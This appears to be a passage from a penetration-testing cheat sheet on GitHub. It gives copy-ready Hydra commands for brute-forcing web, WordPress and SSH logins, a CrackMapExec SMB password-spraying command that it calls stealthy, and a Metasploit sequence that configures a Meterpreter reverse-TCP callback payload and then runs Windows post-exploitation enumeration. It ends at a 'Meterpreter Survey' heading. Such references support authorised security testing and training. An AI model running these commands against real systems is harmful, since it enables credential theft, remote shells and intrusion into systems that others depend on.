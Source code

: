 ### 🔨 Brute-Forcing Web & SSH Logins with Hydra
```bash
# Web Login brute-force (ONLINE - use small wordlist to avoid lockouts)
hydra -t 16 -l <USER> -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt <TARGET> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V -o hydra_web_login.txt

# Wordpress brute-force login form with a complex request string (ONLINE - use small wordlist)
hydra -t 16 -l <USER> -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt <TARGET> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username' -V -o hydra_wp_login.txt

# SSH brute-force; -t 4 is recommended for SSH (ONLINE - use small wordlist)
hydra -t 4 -l <USER> -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ssh://<TARGET>:<PORT> -o hydra_ssh_login.txt
```

### 🔨 SMB Password Spraying with CrackMapExec

Use crackmapexec to spray one password against a list of users. Stealthier and avoids lockouts.

```bash
crackmapexec smb -u users.txt -p '<PASSWORD>' <TARGET_IP>
```

## 🎯 Metasploit / Meterpreter

### 🎯 Finding and Executing Exploits
```bash
# Search for exploits related to a specific keyword
search type:exploit <KEYWORD>

# TARGET
setg RHOSTS <TARGET>
setg PORT

# PAYLOAD (callbacks usually best)
set payload php/meterpreter/reverse_tcp
setg LHOST
setg LPORT

# Run the configured exploit
run

# Windows Post-Exploit
use post/windows/gather/enum_logged_on_users
getuid
getprivs
```

### 📊 Meterpreter Survey
